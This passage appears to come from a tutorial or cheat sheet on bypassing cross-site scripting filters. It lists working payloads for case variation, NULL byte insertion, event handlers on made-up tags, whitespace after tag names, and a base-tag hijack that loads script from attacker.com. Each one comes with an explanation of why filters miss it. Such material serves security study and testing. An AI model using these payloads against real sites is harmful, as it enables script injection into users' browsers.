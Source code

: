 
### 🔹 Techniques and *Why* They Work:

#### ✅ Case variation:

```html
<iMg onerror=alert(1) src=a>
```

* **Why it works:** HTML is **case-insensitive**. So `<IMG>` and `<img>` are the same to the browser, but a naive filter doing `/<img/` won’t catch `<iMg>`.

#### ✅ NULL byte injection (`%00`):

```html
<i[%00]mg onerror=alert(1) src=a>
```

* **Why it works:** NULL bytes (`%00`) are used to **terminate strings** in many programming languages and WAFs. Filters may think the input ends there and ignore the rest, but the browser doesn’t.

#### ✅ Arbitrary tag names with event handlers:

```html
<x onclick=alert(1)>Click</x>
```

* **Why it works:** Most filters are tuned to block `<script>` and `<img>`, but **event handlers (`onclick`, etc.) can be attached to *any tag***. Even a made-up tag like `<x>`.

#### ✅ Base Tag Hijacking:

```html
<base href="http://attacker.com/scripts/">
<script src="legit.js"></script>
```

* **Why it works:** `<base>` redefines how relative URLs are resolved. If the site loads scripts after your injected base tag, the browser will **pull attacker’s script but run it in the site’s origin.**

---

## 🔹 2. **Space After Tag Name**

### Examples:

```html
<img/onerror=alert(1)>
<img%09onerror=alert(1)>
<img/anyjunk/onerror=alert(1)>
```

### ✅ Why it works:

* HTML parsers tolerate **tabs (`%09`), line breaks (`%0a`), carriage returns (`%0d`)**, or junk between the tag name and attributes.
* Filters that expect a **space after `<img`** will fail to detect the attack.

---